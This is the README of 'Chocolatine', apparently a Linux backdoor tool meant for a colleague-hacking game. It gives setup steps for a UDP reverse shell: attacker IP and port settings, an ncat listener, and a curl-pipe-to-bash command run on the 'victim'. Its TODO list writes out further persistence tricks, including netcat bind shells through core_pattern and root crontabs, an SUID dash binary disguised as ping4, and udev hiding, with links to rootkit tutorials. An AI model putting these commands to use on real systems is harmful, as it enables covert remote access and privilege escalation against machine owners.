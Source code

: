 # Chocolatine :bread: :cookie: :doughnut:

## How to configure and use
You have to edit these lines with your IP, PORT and METHOD
```bash
LHOST="192.168.1.19"
LPORT="4242"
LMTHD="--udp"
```
The Attacker needs to open a listening connection with ncat
```bash
Attacker : ncat --udp -lvp 4242
```
Then you only have to run the following command on your victim
```bash
Victim   : curl http://example.com/chocolatine.sh|bash
```

## Rules
 - No lies
 - No backdoor in an internal git script
 - No network attack (MITM ...)
 - No word macro
 - No keylogger
 - No spoof mail
 - No personal datas, no leak !
 - No Deny of Service (if there is one, you need to pay the croissant)
 - After 7 days of tries, you will remove your backdoor
 - You won't recover any PLAIN passwords    
:warning: If there is a challenge, none of the above applied !


## TODO
 - :x: Debian test
 - :x: Fish Shell (~/.config/fish/config.fish)
 - :x: Alias rewrite
 - :x: Core Pattern :   echo '|/bin/nc.traditional -l -p 31337 -e /bin/sh' | sudo tee /proc/sys/kernel/core_pattern
   gedit & kill -SEGV %%
 - :x: Crontab :  for u in root games mysql; do sudo crontab -e -u $u; done
  5 * * * * /bin/nc.traditional -l -p 31337 -e /bin/sh
  /etc/cron.hourly/ and /etc/cron.d/.
 - :x: Suid Dash :o sudo cp /bin/dash /bin/ping4 && sudo chmod u+s /bin/ping4
 - :x: /etc/udev/rules.d or better /lib/udev/rules.d/. UDEV Hide

## Links
 - https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/
 - http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html
 - http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/
